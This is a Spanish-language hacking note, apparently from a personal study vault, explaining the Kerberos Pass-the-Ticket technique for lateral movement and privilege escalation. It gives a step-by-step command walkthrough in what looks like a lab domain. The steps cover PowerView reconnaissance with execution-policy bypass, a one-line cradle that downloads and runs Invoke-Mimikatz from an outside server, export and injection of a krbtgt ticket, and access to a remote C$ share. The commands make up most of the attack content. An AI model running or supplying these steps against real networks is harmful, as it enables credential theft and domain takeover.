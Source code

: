 
Se trata de una técnica de robo de credenciales que permite robar tickets de kerberos para autenticarse en recursos como usuario sin tener que utilizar la password del usuario. Se suele utilzar esta técnica para moverse lateralmente en la red de una organización y escalar privs.

Se pueden llegar a conseguir tickets TGS (ticket-grating service) y TGT (Ticket-grating tickets).

tareas a realizar:

1. Reconocimiento
2. Implementación de ataque
3. Exportar el ticket de kerberos
4. Revisar el acceso del Dominio

Ejemplo práctico:

Desde el ejemplo podemos ejecutar un powershell como administrador.

```powershell
cd C:\\
cd tools
powershell -ep bypass
. .\PowerView.ps1

#Somos usuario student y estamos en el hostname client.

Find-LocalAdminAccess
```

![[Pasted image 20250402085954.png]]

```powershell

Enter-PSSession seclogs.research.SECURITY.local
whoami /priv

#Podemos ver que tenemos privs de usuario elevado.
```

Lanzamos el servidor HFS como hemos visto en [[Hacking/Hacking/Pivoting y lateral movement/Lateral Movement/windows/Pass-the-Hash|Pass-the-Hash]] y añadimos el Invoke-Mimikatz.ps1.

```powershell
cd /
iex (New-Object Net-WebClient).DownloadString('http://ip/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
ls | select name
```

![[Pasted image 20250402090547.png]]

Estos son los tickets que ha exportado de Kerberos. Importante los krbtgt,

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt [0;2939a]-2-0.40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi"'
```

![[Pasted image 20250402091458.png]]

Con esta resolución podemos confirmar que el ticket a sido integrado en la sesión.

```powershell
klist
#COn este comando podemos ver los tickets almacenados.

#Abrimos una nueva sesión de powershell como admin.
cd C:\\
cd tools
powershell -ep bypass
. .\PowerView.ps1

#DEsde la anterior terminal de powerhsell
ls \\prod.research.security.local\c$


